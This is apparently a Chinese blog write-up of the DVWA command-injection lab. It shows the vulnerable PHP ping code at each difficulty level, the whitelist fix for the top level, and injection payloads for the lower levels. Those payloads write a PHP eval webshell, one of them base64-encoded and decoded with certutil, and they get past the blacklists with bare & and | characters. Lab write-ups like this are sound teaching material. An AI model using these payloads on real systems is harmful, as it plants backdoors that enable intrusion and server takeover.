






# DVWA靶场命令执行复现

命令执行漏洞：

命令执行漏洞（Command Injection）就是：攻击者控制了程序传入系统命令的参数，导致服务器执行了攻击者额外构造的操作系统命令

## 低难度 



有一个功能：用户输入一个 IP 地址，服务器执行 ping 命令，检测目标设备是否在线，后端代码是

```yaml
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
	// Get input
	$target = $_REQUEST[ 'ip' ];

	// Determine OS and execute the ping command.
	if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
		// Windows
		$cmd = shell_exec( 'ping  ' . $target );
	}
	else {
		// *nix
		$cmd = shell_exec( 'ping  -c 4 ' . $target );
	}

	// Feedback for the end user
	$html .= "<pre>{$cmd}</pre>";
}

?>
```

服务器先判断操作系统类型（Windows还是Linux），然后直接把用户输入的IP拼接到ping命令中执行，最后把执行结果返回给用户，出现了危险函数shell_exec()里面**执行系统命令**的函数,会返回结果。

这里还涉及操作系统的管道符



进行命令执行测试，发现能进行命令执行



尝试直接写入木马

```yaml
127.0.0.1 && echo '<?php @eval($_POST["cmd"]); ?>' > shell.php

```

这里就出现一个问题怎么也上不去木马，问ai发现有两个原因，一个是`$_POST["cmd"]`​ 里的双引号会和最外层的引号混淆，cmd解析时语法错误。二个是`<?php`​ 里的 `<`​ 和 `>`​ 在cmd里是**重定向符号**，会被当作输入输出重定向处理，而不是作为文件内容写入

进行修改，用 `^` 转义尖括号

```yaml
127.0.0.1 && echo ^<?php @eval($_POST["cmd"]); ?^> > shell.php
```

ai还给我了另一个payload，这个payload先用Base64编码避开Windows cmd对特殊字符（如`<>`​、引号）的解析问题，再通过系统工具`certutil`解码还原成PHP一句话木马，最后删掉临时文件

```yaml
127.0.0.1 && echo PD9waHAgQGV2YWwoJF9QT1NUWyJjbWQiXSk7ID8+ > temp.b64 && certutil -decode temp.b64 shell.php && del temp.b64
```

‍

成功上马



## 中难度

源码

```yaml
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
	// Get input
	$target = $_REQUEST[ 'ip' ];

	// Set blacklist
	$substitutions = array(
		'&&' => '',
		';'  => '',
	);

	// Remove any of the characters in the array (blacklist).
	$target = str_replace( array_keys( $substitutions ), $substitutions, $target );

	// Determine OS and execute the ping command.
	if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
		// Windows
		$cmd = shell_exec( 'ping  ' . $target );
	}
	else {
		// *nix
		$cmd = shell_exec( 'ping  -c 4 ' . $target );
	}

	// Feedback for the end user
	$html .= "<pre>{$cmd}</pre>";
}

?>

```

中等的难度做了两个限制，将&&和";"替换为空，，只要不用&&和；就好了

```yaml
127.0.0.1 && echo ^<?php @eval($_POST["cmd"]); ?^> > shell.php
1 &  echo ^<?php @eval($_POST["cmd"]); ?^> > shell.php
```



## 高难度

源码

```yaml
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
	// Get input
	$target = trim($_REQUEST[ 'ip' ]);

	// Set blacklist
	$substitutions = array(
		'||' => '',
		'&'  => '',
		';'  => '',
		'| ' => '',
		'-'  => '',
		'$'  => '',
		'('  => '',
		')'  => '',
		'`'  => '',
	);

	// Remove any of the characters in the array (blacklist).
	$target = str_replace( array_keys( $substitutions ), $substitutions, $target );

	// Determine OS and execute the ping command.
	if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
		// Windows
		$cmd = shell_exec( 'ping  ' . $target );
	}
	else {
		// *nix
		$cmd = shell_exec( 'ping  -c 4 ' . $target );
	}

	// Feedback for the end user
	$html .= "<pre>{$cmd}</pre>";
}

?>

```

这里过滤了很多的符号，但是没有过滤单独的“|”可以实行|符号后面不加空格进行命令执行



## impossible

```yaml
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
	// Check Anti-CSRF token
	checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

	// Get input
	$target = $_REQUEST[ 'ip' ];
	$target = stripslashes( $target );

	// Split the IP into 4 octects
	$octet = explode( ".", $target );

	// Check IF each octet is an integer
	if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
		// If all 4 octets are int's put the IP back together.
		$target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

		// Determine OS and execute the ping command.
		if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
			// Windows
			$cmd = shell_exec( 'ping  ' . $target );
		}
		else {
			// *nix
			$cmd = shell_exec( 'ping  -c 4 ' . $target );
		}

		// Feedback for the end user
		$html .= "<pre>{$cmd}</pre>";
	}
	else {
		// Ops. Let the user name theres a mistake
		$html .= '<pre>ERROR: You have entered an invalid IP.</pre>';
	}
}

// Generate Anti-CSRF token
generateSessionToken();

?>

```

AI审计:

该源码实现了一个基于 `ping`​ 命令的 IP 连通性检测功能。程序首先通过 CSRF Token 验证请求合法性，然后获取用户提交的 IP 地址，并使用 `explode()`​ 将 IP 拆分为四段，通过 `is_numeric()`​ 和长度检查限制输入只能为合法数字格式。验证通过后，程序重新拼接 IP 地址，避免用户输入额外的 Shell 语句，最后根据操作系统类型调用 `shell_exec()` 执行 ping 命令并返回结果。相比前几个版本使用黑名单过滤危险字符，该代码采用白名单校验方式，只允许符合 IP 格式的数据进入命令执行流程，从根本上降低了命令注入风险。
